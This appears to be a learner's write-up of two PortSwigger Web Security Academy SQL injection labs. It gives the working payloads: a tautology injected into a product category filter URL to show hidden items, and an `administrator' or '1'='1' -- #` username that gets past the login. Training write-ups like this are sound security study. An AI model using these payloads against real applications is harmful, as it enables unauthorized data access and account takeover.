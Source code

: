# SQLi - APPRENTICE
###### tags: `Portswigger Web Security Academy` `Web`
[TOC]

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
* Hint: This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
## Exp
Payload: `https://0a2700a903496ccd807a2626001400e3.web-security-academy.net/filter?category=%27%20or%20%271%27=%271%27%20--%20#`
:::spoiler Success Screenshot
![](https://i.imgur.com/pPKFYKj.png)
:::


---
## Lab: SQL injection vulnerability allowing login bypass
* Hint:  This lab contains a SQL injection vulnerability in the login function.
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

## Exp
Payload:
Username: `administrator' or '1'='1' -- #`
Password: Arbitrary
:::spoiler Success Screenshot
![](https://i.imgur.com/dBm7zzB.png)
:::


## Reference
[Burp Suite Security Academy Writeup](https://github.com/frank-leitner/portswigger-websecurity-academy)